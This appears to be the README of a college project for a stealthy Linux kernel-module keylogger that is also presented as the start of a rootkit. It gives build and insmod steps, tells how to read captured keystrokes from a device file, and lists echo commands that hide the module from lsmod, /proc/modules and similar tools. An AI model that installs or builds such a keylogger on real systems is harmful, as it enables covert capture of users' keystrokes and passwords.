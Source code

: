 stealthy-Keylogger-lkm
========================

This is a very simple Keylogger implementation, and is part of a college project
at http://blogs.computing.dcu.ie/wordpress/mak0/

This is the 2nd implementation of my keylogger, this one allows the module to 
be hidden and also demonstrates how our rootkit could take simple commands.

This demonstrates an introduction to simple methods of concealing our rootkit.

To run simply run "make" in the folder with the Makefile.

There is also the option of running scripts/lets_mak_it.sh
This takes 2 arguments, the name of the device to appear in /dev/DEVICE_NAME
and a major number for the device. By default it used a device name of
maK_it and a major number of 33.

To view the logged keys cat /dev/maK_it

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it

Building towards development of a rootkit...

===============
Demo Commands
===============
Hide the module: echo modHide > /dev/.maK_it

Reveal the module: echo modReveal > /dev/.maK_it

We can confirm the module is hidden by running some of the following:

lsmod | grep maK

grep maK /proc/modules

grep maK_it /proc/kallsyms

ls /sys/modules | grep maK

modinfo maK_it

modprobe -c | grep maK


Turn Key logger on: echo keyLogOn > /dev/.maK_it

Turn Key logger off: echo keyLogOff > /dev/.maK_it

Turn debug on/off: echo debug > /dev/.maK_it
